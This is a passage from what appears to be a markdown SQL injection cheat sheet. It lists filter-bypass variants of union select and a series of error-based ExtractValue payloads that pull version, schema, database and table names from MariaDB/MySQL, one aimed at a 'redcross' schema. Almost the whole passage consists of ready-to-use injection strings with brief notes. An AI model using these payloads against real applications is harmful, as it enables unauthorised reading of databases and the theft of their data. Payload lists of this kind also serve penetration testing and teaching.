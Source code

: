 		AND, AnD, aNd, aND, And
		union select 1,2 %23
		uNioN sEleCt 1,2 %23
		uNioN+sEleCt+1,2+%23
		uNioN/**/sEleCt/**/1,2/**/%23

## ExtractValue Method

- Get the mariadb version  

		') and extractvalue(0x0a,version()) -- -

		\\ OR

		') and extractvalue(0x0a,concat(0x0a,version())) -- -

- Get the Schema infos  
	https://dev.mysql.com/doc/refman/8.0/en/information-schema.html  
	https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html  

		') and extractvalue(0x0a,concat(0x0a,(select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA))) -- -

		\\ OR We can limit the result to 1

		') and extractvalue(0x0a,concat(0x0a,(select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 1))) -- -

	*Notes:*  

	*[extractvalue](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html#function_extractvalue) :  ExtractValue(xml_frag, xpath_expr)*  

	*[xpath](https://www.w3schools.com/xml/xpath_syntax.asp): XPath is a query language for selecting nodes from an XML document.*  

	*0x0A: White space character as a canonicalized version*  

- Get the databases names  
	https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html  

		') and extractvalue(0x0a,concat(0x0a,(select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1))) -- -

		OR

		') and extractvalue(0x0a,concat(0x0a,(select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 1,2))) -- -

		OR

		') and extractvalue(0x0a,concat(0x0a,(select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 1,3))) -- -

- Get infos from tables  

		') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 0,1))) -- -

		THEN

